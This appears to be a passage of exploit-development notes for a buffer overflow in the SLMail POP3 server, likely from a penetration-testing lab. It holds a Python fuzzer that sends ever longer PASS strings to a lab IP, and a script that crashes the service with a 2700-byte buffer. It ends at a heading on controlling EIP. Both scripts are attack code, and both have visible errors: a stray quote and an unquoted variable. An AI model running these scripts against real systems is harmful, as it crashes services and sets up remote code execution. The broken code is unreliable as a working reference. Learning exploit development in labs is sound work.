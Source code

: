 pop3-pass-fuzz.py

```python
#!/usr/bin/python
import socket

# Create an array of buffers, while incrementing them.

buffer=["A"]
counter=100
while len(buffer) <=30:
  buffer.append("A"*counter)
  counter=counter+200

# Each one of these buffers is a password with varying lengths
for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.30.35',110))
  s.recv(1024)
  s.send('USER test\r\n'')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()

```

### Crash Replication

About 2700 bytes causes overflow for SLMail

slmail-pop3.py

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = A * 2700

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Controlling EIP
